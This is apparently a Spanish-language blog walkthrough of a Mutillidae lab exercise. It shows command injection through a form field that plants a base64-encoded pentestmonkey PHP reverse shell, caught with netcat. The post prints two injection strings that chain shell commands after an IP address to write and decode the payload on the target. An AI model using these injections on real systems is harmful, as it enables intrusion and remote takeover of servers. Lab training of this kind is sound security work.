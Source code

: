 ```yaml
---
typora-copy-images-to: ../../myassets/img/mutillidae/
typora-root-url: ../../
layout: post

---
```


Vamos a realizar un *reverse shell* mediante inyección de comandos desde un campo de texto de un formulario.



Para ello nos vamos a descargar una plantilla de [esta dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la gurardaremos como *shell.php*

Lo editamos y cambiamos la dirección IP por la que tenemos en el equipo.

![](/PePs/myassets/img/mutillidae/5.png)



Después vamos a codificarlo en https://www.base64encode.org/

Con este código vamos a crear un fichero  dentro de la máquina a la que vamos a atacar con el contenido con el que hemos codificado.

Para ello utlizaremos la siguiente instrucción:



```bash
127.0.0.1; echo "codigo_que_hemos_codificado" > shell.txt


```

![](/PePs/myassets/img/mutillidae/1.png)



Una vez creado lo descodificamos y lo guardamos como fichero .php con la siguiente instrucción:

```bash
127.0.0.1; cat shell.txt | base64 -d > shell.php


```

![](/PePs/myassets/img/mutillidae/2.png)



Realizamos al conexión mediante netcad

![](/PePs/myassets/img/mutillidae/4.png)





